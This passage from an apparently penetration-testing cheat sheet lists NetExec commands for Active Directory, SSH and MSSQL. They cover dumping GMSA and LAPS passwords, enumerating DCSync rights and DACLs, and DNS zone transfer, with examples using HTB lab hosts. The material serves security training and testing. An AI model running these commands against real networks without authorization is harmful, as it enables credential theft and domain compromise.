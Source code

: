 ### GMSA Password

{% code overflow="wrap" %}
```bash
nxc ldap dc01.rebound.htb -u tbrady -p tbrady_pass -k --gmsa
```
{% endcode %}

### Modules

#### User Information

The `whoami` module returns more information that just the `whoami` command.

```bash
nxc ldap <ip> -u <user> -p <pass> -M whoami -o USER=<user>
```

#### DNS Zone-Transfer

```bash
nxc ldap <ip> -u <user> -p <pass> -M get-network -o ALL=true
```

#### LAPS

```bash
nxc ldap <ip> -u <user> -p <pass> -M laps
```

#### DACL Enumeration.

{% code overflow="wrap" %}
```bash
nxc ldap <ip> -u <user> -p <pass> -M daclread -o TARGET=<user> ACTION=read
# DCSync rights
nxc ldap <ip> -u <user> -p <pass> -M daclread -o TARGET_DN="DC=inlanefreight,DC=htb" ACTION=read RIGHTS=DCSync
```
{% endcode %}

## SSH

Key authentication.

```bash
nxc ssh <ip> -u root -p '' --key-file root_id_rsa
```

## MSSQL

{% tabs %}
{% tab title="Auth" %}
Two methods can be used to authenticate to MSSQL: Windows (default) & local auth:

```bash
# 1. Windows auth

# With SMB port open
nxc mssql <target> -u <user> -p <pass>

# With SMB port closed
nxc mssql <target> -u <user> -p <pass> -d <domain>

# 2. Local auth
nxc mssql <target> -u <user> -p <pass> --local-auth
```

